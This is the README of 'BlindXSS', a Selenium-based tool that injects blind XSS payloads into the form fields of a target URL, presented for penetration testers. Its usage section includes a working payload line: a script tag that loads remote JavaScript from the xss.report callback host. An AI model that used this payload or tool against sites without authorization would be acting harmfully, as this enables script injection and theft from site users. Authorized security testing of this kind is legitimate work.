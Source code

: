 # BlindXSS - Automated Blind XSS Testing Tool

```
__________.__  .__            .___ ____  ___  _________ _________
\______   \  | |__| ____    __| _/ \   \/  / /   _____//   _____/
 |    |  _/  | |  |/    \  / __ |   \     /  \_____  \ \_____  \ 
 |    |   \  |_|  |   |  \/ /_/ |   /     \  /        \/        \
 |______  /____/__|___|  /\____ |  /___/\  \/_______  /_______  /
        \/             \/      \/        \_/        \/        \/ 

made by @hghost010
```

## 🎯 Description

BlindXSS is an automated web security testing tool designed to identify potential blind Cross-Site Scripting (XSS) vulnerabilities. The tool systematically injects XSS payloads into form inputs and interactive elements on web pages to help security researchers and penetration testers identify potential security weaknesses.

## ✨ Features

- **Automated Form Detection**: Automatically finds and tests input fields, textareas, select elements, and contenteditable elements
- **Comprehensive Testing**: Tests various HTML input types and interactive elements
- **Smart Navigation**: Handles form submissions and page redirections intelligently

## 🛠️ Requirements

### System Requirements
- Python 3.7+
- Chrome/Chromium browser
- Internet connection

### Python Dependencies
```
selenium>=4.0.0
webdriver-manager>=3.8.0
colorama>=0.4.4
```

## 📦 Installation

1. **Clone the repository:**
   ```bash
   git clone https://github.com/Hghost0x00/Blind_XSS.git
   cd Blind_XSS
   ```

2. **Install Python dependencies:**
   ```bash
   pip install -r requirements.txt
   ```

3. **Verify Chrome/Chromium installation:**
   - The tool uses webdriver-manager to automatically download and manage ChromeDriver
   - Ensure Chrome or Chromium is installed on your system

## 🚀 Usage

1. **Run the tool:**
   ```bash
   python bxss.py
   ```

2. **Enter target URL:**
   ```
   Enter the target URL: https://example.com/login
   ```

3. **Provide XSS payload:**

Enter your blind XSS payload: '"><script src=https://xss.report/c/__your_username__></script>

Tip: Using `xss.report` payloads is one of the easiest ways to use this tool. Simply create a free account and use your personalized payload.

4. **Monitor the testing process:**
   - The tool will automatically find and test all interactive elements



## 🐛 Troubleshooting

### Common Issues

**ChromeDriver not found:**
- Solution: The webdriver-manager should handle this automatically. If issues persist, manually install ChromeDriver.

**Permission denied errors:**
- Solution: Run with appropriate permissions or check Chrome installation.

**Timeout errors:**
- Solution: Increase the timeout values in the script for slower websites.



## 📄 License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## 🙏 Acknowledgments

- Created by @hghost010
- Built with Selenium WebDriver
- Uses webdriver-manager for Chrome driver management

## ⭐ Support

If you find this tool helpful, please consider:
- ⭐ Starring the repository
- 🐛 Reporting bugs and issues
- 💡 Suggesting new features
